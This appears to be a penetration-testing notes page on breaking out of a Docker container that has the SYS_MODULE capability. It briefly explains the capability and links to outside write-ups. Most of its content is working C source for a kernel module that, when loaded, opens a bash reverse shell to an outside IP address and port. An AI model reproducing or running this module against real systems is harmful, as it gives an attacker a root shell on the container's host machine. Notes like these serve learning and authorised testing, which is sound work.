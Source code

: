 

## Container with `SYS_MODULE` Capability

The container has `SYS_MODULE` capability. As a result, the container can insert/remove kernel modules in/from the kernel of the Docker host machine.

![](screenshots/docker-cap.png)


* [linux capabilities](https://blog.container-solutions.com/linux-capabilities-in-practice), [](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities)
* **CAP_SYS_MODULE:** This means that you can insert/remove kernel modules in/from the kernel of the host machine.
* abusing `sys_module` capability
  * Exploit Scripts from [hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#example-with-environment-docker-breakout-2)
  * Orignal Post from [blog.pentesteracademy.com](https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd)

### Exploit

**Write a program to invoke a reverse shell with the help of usermode Helper API.**
```c++
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.15.71/4141 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```
